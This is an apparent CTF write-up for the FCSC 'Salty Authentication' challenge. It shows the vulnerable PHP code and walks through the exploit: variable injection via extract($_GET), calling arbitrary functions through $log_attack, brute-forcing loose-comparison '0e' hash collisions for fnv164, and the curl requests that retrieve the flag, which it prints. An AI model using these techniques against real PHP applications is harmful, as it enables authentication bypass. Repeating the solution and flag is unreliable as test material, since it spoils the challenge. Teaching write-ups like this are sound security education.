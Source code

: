 # Salty Authentication
<img alt="Challenge" src="challenge.png" width=300>

When trying to access the given url, we get the following answer:
```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The secret string is composed of the hostname of the machine concatenated with a random salt.
The script checks if the "password" parameter was provided in the GET request and if it has the same length as the secret string. If these conditions are met, the hash function "fnv164" is applied to the secret string and the "password" parameter, and the two hashes are compared.

Let's read the php doc of the extract function:
<div class="refnamediv">
  <h1 class="refname">extract</h1>
  <p class="verinfo">(PHP 4, PHP 5, PHP 7, PHP 8)</p><p class="refpurpose"><span class="refname">extract</span> — <span class="dc-title">Import variables into the current symbol table from an array</span></p>
</div>
<div class="refsect1 description" id="refsect1-function.extract-description">
  <h3 class="title">Description<a class="genanchor" href="#refsect1-function.extract-description"> ¶</a></h3>
  <div class="methodsynopsis dc-description">
   <span class="methodname"><strong>extract</strong></span>(<span class="methodparam"><span class="type">array</span> <code class="parameter reference">&amp;$array</code></span>, <span class="methodparam"><span class="type">int</span> <code class="parameter">$flags</code><span class="initializer"> = <strong><code>EXTR_OVERWRITE</code></strong></span></span>, <span class="methodparam"><span class="type">string</span> <code class="parameter">$prefix</code><span class="initializer"> = ""</span></span>): <span class="type">int</span></div>

  <p class="para rdfs-comment">
   Import variables from an array into the current symbol table.
  </p>
  <p class="para">
   Checks each key to see whether it has a valid variable name. 
   It also checks for collisions with existing variables in
   the symbol table.
  </p>
  <div class="warning"><strong class="warning">Warning</strong>
   <p class="para">
    Do not use <span class="function"><strong>extract()</strong></span> on untrusted data, like user input
    (e.g. <var class="varname"><a href="reserved.variables.get.php" class="classname">$_GET</a></var>, <var class="varname"><a href="reserved.variables.files.php" class="classname">$_FILES</a></var>).
   </p>
  </div>
 </div>

With this function we can control a number of variables in the script.
This allows us to submit, via a GET request, the $password and $salt parameters.
First, we will try to know the length of the hostname returned by the gethostname() function. To do so, we just have to submit an empty $salt, and iterate on the length of $password until the message 'Wrong password!

```console
dqrkk$ for i in {1..100}; do response=$(curl -s "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=$(python -c 'print "A" * '$i'')") && [[ "$response" == *"Wrong password"* ]] && echo "Password length: $i"; sleep 2; done
Password length: 12
```

The hostname has a length of 12 characters.
In order to go further, we need to know the value of the hostname.
For that, we will use a flaw in the script.
Indeed, when the hashes don't match, the script displays the message "Wrong password!", but it also makes an exit($log_attack()).
This gives us the possibility to call a function by controlling the value of $log_attack.
We will send the string gethostname in the parameter, in order to make the script execute this function.

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=AAAAAAAAAAAA&log_attack=gethostname"; echo     
Wrong password!9be4a60f645f
```

Hostname is 9be4a60f645f

At this point, all we have to do is find a $password and $salt values that will satisfy the following conditions:

```php
$secret = "9be4a60f645f" . $salt

strlen($password) === strlen($secret)
$password !== $secret
hash('fnv164', $password) == hash('fnv164', $secret)
```

We must therefore find PHP fnv164 hash collisions.
Searching for 'fnv164 collisions' on google, we find a site explaining that it is possible to generate collisions in hashes if the comparison between the 2 hashes uses == to compare them.
It uses the trick that for PHP a string formated lkie '0+e[0-9]+' is evaluated as 0.
So '0e1' == '00e2' == '0' == 0

We just need to find two different salt with the same length that generate a hash that match the previous format.
The following script do the job:

```php
// Générer une chaîne de sel aléatoire de longueur variable contenant des chiffres et des lettres
function generateStrings($min_length, $max_length)
{
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'; // Chiffres et lettres autorisés
    $characters_length = strlen($characters);

    for ($i = $min_length; $i <= $max_length; $i++) {
        $combinations = pow($characters_length, $i); // Nombre total de combinaisons

        for ($j = 0; $j < $combinations; $j++) {
            $string = '';
            $index = $j;

            // Convertir l'index en base $characters_length pour générer une chaîne de caractères unique
            for ($k = 0; $k < $i; $k++) {
                $string .= $characters[$index % $characters_length];
                $index = floor($index / $characters_length);
            }

            yield $string;
        }
    }
}

foreach (generateStrings(1, 20)  as $salt) {
    // Concaténation du secret avec le sel
    $secret = "9be4a60f645f" . $salt;

    // Calcul du hash
    $hash = hash('fnv164', ($secret));

    // Vérification que le hash commence par '0e' suivi de chiffre
    if (preg_match('/^0e\d+$/', $hash)) {
        echo "Salt: $salt, Le hash $hash commence par '0e' suivi de chiffre.\n";
    }
}
```

Let's laucnh it, we obtain:

```console
dqrkk$ php salty.php
Salt: ChI00, Le hash 0e65994470693693 commence par '0e' suivi de chiffres.
Salt: 9iu10, Le hash 0e31697456461001 commence par '0e' suivi de chiffres.
Salt: xQj20, Le hash 0e86686877103172 commence par '0e' suivi de chiffres.
Salt: ChH20, Le hash 0e62314470665024 commence par '0e' suivi de chiffres.
Salt: 9iH20, Le hash 0e42687456548181 commence par '0e' suivi de chiffres.
Salt: xQn30, Le hash 0e78716877040301 commence par '0e' suivi de chiffres.
Salt: xQj40, Le hash 0e86626877102720 commence par '0e' suivi de chiffres.
Salt: xQk40, Le hash 0e89686877126729 commence par '0e' suivi de chiffres.
Salt: xQi50, Le hash 0e90736877189848 commence par '0e' suivi de chiffres.
Salt: xQk50, Le hash 0e89676877126556 commence par '0e' suivi de chiffres.
```

And that's it.
Let's take the first two calculated values.

$password will be 9be4a60f645f9iu10
hash('fnv164', '9be4a60f645f9iu10') = '0e31697456461001'
$secret will be 9be4a60f645fChI00
hash('fnv164', '9be4a60f645fChI00') = '0e65994470693693'

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=ChI00&password=9be4a60f645f9iu10"; echo  
FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}
```

Flag is FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}


